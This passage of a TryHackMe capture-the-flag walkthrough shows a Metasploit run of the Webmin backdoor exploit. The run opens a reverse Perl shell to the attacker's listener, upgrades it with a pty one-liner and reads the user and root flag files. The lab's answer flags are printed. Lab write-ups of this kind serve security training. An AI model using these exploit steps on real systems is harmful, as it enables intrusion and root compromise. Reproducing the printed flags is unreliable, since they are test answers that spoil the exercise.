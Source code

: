 `SSL        false            no        Negotiate SSL/TLS for outgoing connections`

4. Run the exploit. What is the user flag?

```
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.8.106.222:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.8.106.222:4444 -> 10.10.129.211:37060) at 2020-09-26 15:26:45 +0200
```

```
python -c "import pty; pty.spawn('/bin/bash')"
```

```
root@source:/usr/share/webmin/# find / -name user.txt
find / -name user.txt
/home/dark/user.txt
root@source:/usr/share/webmin/# cat /home/dark/user.txt
cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
root@source:/usr/share/webmin/# cat /root/root.txt
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
```

`THM{SUPPLY_CHAIN_COMPROMISE}`

5. How about the root flag?

`THM{UPDATE_YOUR_INSTALL}`

6. Once you've completed gaining the root flag, move onto the fifth and final task.

## Going Further

Want to get even more out of AttackerKB? Check out the AKB Explorer by [Horshark](https://tryhackme.com/p/Horshark)! Written in python, AKB Explorer provides similar functionality to Searchsploit, expanded to encompass the features of AKB. Using this tool, you can search by name, CVE, and username for posts! Check it out here: [Link](https://github.com/horshark/akb-explorer)

1. Read the above and keep learning!

`No answer needed`
